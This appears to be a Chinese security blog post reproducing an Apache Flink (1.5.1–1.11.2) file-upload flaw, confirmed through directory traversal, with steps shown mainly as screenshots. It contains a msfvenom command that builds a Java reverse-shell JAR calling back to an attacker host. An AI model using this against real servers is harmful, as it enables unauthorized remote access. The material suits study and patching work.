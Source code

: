 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/58QhVM_Kp-ds-HD4YRESwg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa24HxVPpEqNSlEFXwdZ68buwytSlQpLr8yLOYEVQOqlwBKsBWYfkkMo4ywKoFErSicJh0qzTuseSdsA/640?wx_fmt=jpeg)

**前言:**  

Apache Flink 前面写了它存在目录遍历漏洞，今天和大家分享一下如何利用目录遍历来判断该站点是否存在文件上传漏洞。

**漏洞描述：**

我们通过指定路径写入一个文件，在根据它的目录遍历漏洞，来判断是否上传写入成功，成功读取即漏洞存在，可以进一步写入 shell，从而 getShell。

**漏洞复现：**

写入文件。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26QBWOcswEfX6cr6eJmkNFjicM5teCnCN9n7eR1SS8ApiatytMHeptiaibOicf7ZWpibbArk6f641fibC5eA/640?wx_fmt=png)

通过目录遍历漏洞读取写入的文件, 返回文件内容。漏洞存在。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26QBWOcswEfX6cr6eJmkNFjA4icUosLCmbw5jrPNS0F41nwxmc6lojSNxXv1WymxPYBTfxRI1gfo1w/640?wx_fmt=png)

编写 shell 利用 Metasploit 框架 msfvenom 来生成木马。

```
#进入
msfconsole
#生成shell
msfvenom -p java/shell_reverse_tcp lhost=ip  lport=port -f jar >/gem.jar
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26QBWOcswEfX6cr6eJmkNFj6XialYWZExu4hah5fFP9PUl9NQYF4KYmibPrheic2RUyQFIQ6P148ACkQ/640?wx_fmt=png)

上传成功成功反弹 shell。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26QBWOcswEfX6cr6eJmkNFjIOY5VIqagIPX6wKBy27f4huItZkvibsBAYfz43tOOoLuBC62UU46qDg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26QBWOcswEfX6cr6eJmkNFjUlMNH8M6WvyYGKqIx8BFfnb8ibAPeAONJwdCEnIbDOEDy4e3dA9TQHQ/640?wx_fmt=png)

**影响版本:**

Apache Flink 1.5.1 ~ 1.11.2

**修复建议:**

及时更新到最新版本。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa260lZABWwEo49lodRtpGIOoYYt5Ojm4Y1sdMD4ez7rL55g1IW3icCTOia91YicOrh1sjuOB5TiaUibCiaiaA/640?wx_fmt=jpeg)

一起学习，请关注我![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4hZQYrCwcz8gD1evatvHgAquT3YhfNMxgqib63eQ1mRnQVjQA6W9icxFg/640?wx_fmt=png)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。